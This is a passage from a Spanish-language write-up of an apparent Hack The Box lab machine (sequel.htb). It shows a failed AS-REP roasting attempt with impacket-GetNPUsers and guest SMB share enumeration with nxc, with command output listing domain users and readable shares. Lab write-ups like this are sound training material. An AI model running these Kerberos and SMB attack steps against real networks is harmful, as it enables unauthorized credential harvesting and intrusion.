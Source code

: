 ## AS-REP Roast Attack \[FAILED]

Dado que disponemos de una lista potencial de usuarios válidos del dominio, probaremos de realizar un `AS-REP Roast Attack` para lograr obtener un `Ticket Granting Ticket` (`TGT`) de aquellos usuarios que tengan asignado el `DONT_REQ_PREAUTH` de Kerberos.

En este caso, no logramos obtener ningún hash debido que ningún usuario tenía la flag marcada.

```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt sequel.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Tom.Henn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Brandon.Brown doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ryan.Cooper doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sql_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User James.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Nicole.Thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## SMB Enumeration

A través del usuario `guest` (Invitado) realizaremos una enumeración de los recursos compartidos del sistema para verificar si a través de este usuario tenemos acceso algún recurso compartido.

En el resultado obtenido, verificamos que tenemos acceso al recurso compartido `Public` con permisos de `READ`.

```bash
❯ nxc smb 10.10.11.202 -u 'guest' -p '' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest: 
SMB         10.10.11.202    445    DC               [*] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark
SMB         10.10.11.202    445    DC               -----           -----------     ------
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.202    445    DC               C$                              Default share
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.202    445    DC               Public          READ            
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share 
```

Mediante el módulo de `spider_plus` realizaremos una enumeración de los recursos compartidos para que se nos genere un archivo `JSON` con la estructura de los archivos que se encuentran en los diferentes recursos compartidos.
